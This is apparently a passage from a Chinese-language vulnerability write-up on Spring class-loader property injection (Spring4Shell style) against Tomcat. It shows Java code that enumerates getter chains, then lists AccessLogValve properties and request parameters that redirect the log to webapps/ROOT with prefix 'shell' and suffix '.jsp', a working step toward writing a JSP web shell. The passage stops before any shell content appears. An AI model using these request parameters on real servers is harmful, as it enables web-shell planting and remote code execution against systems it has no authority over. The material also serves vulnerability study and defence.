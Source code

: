 ```bash
            for (Method m : allMethods) {
                if (!m.getName().startsWith("get")) {
                    continue;
                }
                if (!m.toGenericString().startsWith("public")) {
                    continue;
                }
                Class<?>[] pType  = m.getParameterTypes();
                if(pType.length!=0) continue;
                if(m.getReturnType() == Void.TYPE) continue;
                m.setAccessible(true);
                Object o = m.invoke(instance);
                if(o!=null)
                {
                    if(set.contains(o)) continue;

                    processClass(o, set, poc+"."+m.getName().substring(3,4).toLowerCase()+m.getName().substring(4));
                }
            }
        } catch (IllegalAccessException | InvocationTargetException x) {
            x.printStackTrace();
        }
    }
```

可以发现以下属性：

```bash
class.classLoader.resources.context.parent.pipeline.first.directory =
class.classLoader.resources.context.parent.pipeline.first.prefix =
class.classLoader.resources.context.parent.pipeline.first.suffix = 
class.classLoader.resources.context.parent.pipeline.first.fileDateFormat =
```

组合使用即可在指定文件位置，创建一个指定后缀名的文件

具体怎么发现的就不提了，因为 Struts2 S2-020 漏洞中就有这样的利用方式，可以参考：[https://cloud.tencent.com/developer/article/1035297](https://cloud.tencent.com/developer/article/1035297)

不过与上文不同的是，我觉得 EL 表达式的方法更好用，依次提交以下请求：

```bash
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
```
